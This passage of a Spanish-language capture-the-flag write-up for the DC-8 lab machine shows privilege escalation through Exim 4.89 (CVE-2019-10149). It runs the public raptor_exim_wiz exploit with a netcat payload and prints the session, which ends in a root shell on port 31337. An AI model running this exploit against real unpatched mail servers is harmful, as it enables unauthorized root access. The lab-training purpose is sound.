 ```
www-data@dc-8:/opt$ exim4 --version
Exim version 4.89 #2 built 14-Jun-2017 05:03:07
Copyright (c) University of Cambridge, 1995 - 2017
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2017
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() IPv6 GnuTLS move_frozen_messages DKIM DNSSEC Event OCSP PRDR SOCKS TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb dsearch nis nis0 passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
```

Exploitdb: [https://www.exploit-db.com/exploits/46996](https://www.exploit-db.com/exploits/46996)

El exploit aprovecha una falla en las versiones 4.87 a 4.91 de `Exim`. La validación incorrecta de la dirección del destinatario en la función `deliver_message()` en `/src/deliver.c` puede llevar a la ejecución del comando con privilegios (CVE: 2019-10149).

```
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m netcat         
bash: ./raptor_exim_wiz: No such file or directory      
www-data@dc-8:/tmp$ ./exploit.sh -m netcat              
                                                        
raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>
                                                        
Delivering netcat payload...                            
220 dc-8 ESMTP Exim 4.89 Tue, 12 Oct 2021 15:29:10 +1000
250 dc-8 Hello localhost [::1]                          
250 OK                                                  
250 Accepted                                            
354 Enter message, ending with "." on a line by itself  
250 OK id=1maALe-0000Ix-OA                              
221 dc-8 closing connection                             
                                                        
Waiting 5 seconds...                                    
localhost [127.0.0.1] 31337 (?) open                    
whoami                                                  
root                                                    
```





